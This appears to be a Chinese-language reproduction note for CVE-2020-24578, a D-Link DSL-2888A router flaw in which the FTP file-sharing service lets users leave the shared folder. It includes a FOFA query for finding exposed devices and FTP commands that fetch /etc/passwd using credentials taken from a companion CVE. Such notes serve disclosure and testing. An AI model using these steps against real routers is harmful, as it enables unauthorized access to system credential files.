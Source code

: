 # D-Link DSL-28881A FTP配置错误 CVE-2020-24578

## 漏洞描述

D-Link DSL-2888A路由器具有文件共享功能，该功能允许用户通过将外部驱动器插入路由器来与其他网络用户共享文件。然后通过FTP（文件传输协议）共享。但是，FTP服务允许网络用户转义共享文件夹以访问路由器文件系统并下载位于根文件夹中的其他文件。

## 漏洞影响

```
D-Link DSL-2888A
```

## FOFA

```
body="DSL-2888A"
```

## 漏洞复现

前提为使用 **D-Link DSL-28881A 信息泄露 CVE-2020-24577** 获取FTP凭证

以下提供了下载“ passwd”的示例：
在FTP客户端上使用以下命令以有效的凭据（从Finding-2获得）连接到FTP服务。
使用以下命令导航到根文件夹。

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```

![](./images/202202162225017.png)